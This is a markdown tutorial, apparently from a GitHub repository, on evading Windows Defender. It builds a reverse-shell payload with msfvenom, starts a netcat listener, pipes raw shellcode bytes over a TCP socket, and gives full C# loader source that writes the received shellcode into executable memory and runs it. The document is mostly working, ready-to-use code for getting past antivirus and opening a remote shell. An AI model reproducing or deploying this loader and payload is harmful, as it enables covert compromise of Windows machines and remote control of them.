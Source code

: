 # Antivirus Evasion - Part 2

## Using Sockets to bypass Defender

We open a TCP socket port and send shellcode over that which is later executed to give reverse shell.

This works on latest defender as of Feb15 2021


### Steps 
- Prepare payload using msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=80 -b "\x00" -f csharp
```
- Once done compile the below code to generate exe which opens port 8080 on the ipv4 interface.
- Once done start reverse shell handler on kali
```
nc -nlvp 80
```
- Now send shellcode over the TCP socket which will be executed by executable.
```
python -c 'print "\xda\xc9\xbd\x4c\xee\xdc\x9e\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x52\x31\x6e\x17\x03\x6e\x17\x83\xa2\x12\x3e\x6b\xc6\x03\x3d\x94\x36\xd4\x22\x1c\xd3\xe5\x62\x7a\x90\x56\x53\x08\xf4\x5a\x18\x5c\xec\xe9\x6c\x49\x03\x59\xda\xaf\x2a\x5a\x77\x93\x2d\xd8\x8a\xc0\x8d\xe1\x44\x15\xcc\x26\xb8\xd4\x9c\xff\xb6\x4b\x30\x8b\x83\x57\xbb\xc7\x02\xd0\x58\x9f\x25\xf1\xcf\xab\x7f\xd1\xee\x78\xf4\x58\xe8\x9d\x31\x12\x83\x56\xcd\xa5\x45\xa7\x2e\x09\xa8\x07\xdd\x53\xed\xa0\x3e\x26\x07\xd3\xc3\x31\xdc\xa9\x1f\xb7\xc6\x0a\xeb\x6f\x22\xaa\x38\xe9\xa1\xa0\xf5\x7d\xed\xa4\x08\x51\x86\xd1\x81\x54\x48\x50\xd1\x72\x4c\x38\x81\x1b\xd5\xe4\x64\x23\x05\x47\xd8\x81\x4e\x6a\x0d\xb8\x0d\xe3\xe2\xf1\xad\xf3\x6c\x81\xde\xc1\x33\x39\x48\x6a\xbb\xe7\x8f\x8d\x96\x50\x1f\x70\x19\xa1\x36\xb7\x4d\xf1\x20\x1e\xee\x9a\xb0\x9f\x3b\x0c\xe0\x0f\x94\xed\x50\xf0\x44\x86\xba\xff\xbb\xb6\xc5\xd5\xd3\x5d\x3c\xbe\x1b\x09\x44\x3f\xf4\x48\xb8\x3f\x54\xc4\x5e\x55\x44\x80\xc9\xc2\xfd\x89\x81\x73\x01\x04\xec\xb4\x89\xab\x11\x7a\x7a\xc1\x01\xeb\x8a\x9c\x7b\xba\x95\x0a\x13\x20\x07\xd1\xe3\x2f\x34\x4e\xb4\x78\x8a\x87\x50\x95\xb5\x31\x46\x64\x23\x79\xc2\xb3\x90\x84\xcb\x36\xac\xa2\xdb\x8e\x2d\xef\x8f\x5e\x78\xb9\x79\x19\xd2\x0b\xd3\xf3\x89\xc5\xb3\x82\xe1\xd5\xc5\x8a\x2f\xa0\x29\x3a\x86\xf5\x56\xf3\x4e\xf2\x2f\xe9\xee\xfd\xfa\xa9\x1f\xb4\xa6\x98\xb7\x11\x33\x99\xd5\xa1\xee\xde\xe3\x21\x1a\x9f\x17\x39\x6f\x9a\x5c\xfd\x9c\xd6\xcd\x68\xa2\x45\xed\xb8"' | nc 192.168.122.189 8080
```

Code:
```c#
using System.Runtime.InteropServices;
using System;
using System.Net.Sockets;
using System.Net;
class Program
{
    [DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(UInt32 lpAddress, UInt32 dWsize, UInt32 flAllocationType, UInt32 flProtect);

    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dWsize, IntPtr lpStartAddress, IntPtr lpParameter, UInt32 dwCreationFlags, IntPtr lpThradId);

    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliSeconds);

    private static UInt32 MEM_COMMIT = 0x1000;
    private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

    static void Main(string[] args)
    {
	// Socket creation
        IPHostEntry ipHost = Dns.GetHostEntry(Dns.GetHostName());
        IPAddress ipAddress = ipHost.AddressList[1];
        IPEndPoint localEndpoint = new IPEndPoint(ipAddress, 8080);

        Socket s = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
        s.Bind(localEndpoint);
        s.Listen(5);

	// Accept incomming connection
        Socket handler = s.Accept();
        byte[] bytes = new byte[1024];
        byte[] shellcode;

	//Save the incomming bytes to a byte array to execute
        while (true)
        {
            int bytesRec = handler.Receive(bytes);
            shellcode = new byte[bytesRec];
            Buffer.BlockCopy(bytes, 0, shellcode, 0, bytesRec);
            break;
        }

        IntPtr address = VirtualAlloc(0, (UInt32)(shellcode.Length - 1), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(shellcode, 0, address, shellcode.Length - 1);
        IntPtr threadHandle = CreateThread(0, 0, address, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(threadHandle, 0xFFFFFFFF);
    }
}
```

## Pre-Requisite
- The structure of the VirtualAlloc,CreateThread and WaitForSingleObject has been explained on [day1](../days/day1.md)
- Reason for doing `shellcode.Length-1` is that upon sending the shellcode over nc there would be extra new linw which is not part of shellcode.
- I dont find need to consider cases where shellcode is greater than 1024 since that is very impractical for most of use cases.

## Reference
- The idea was taken from [Ired Teams](https://www.ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon#code). The techinique is still valid and works on all level of protection by defender.
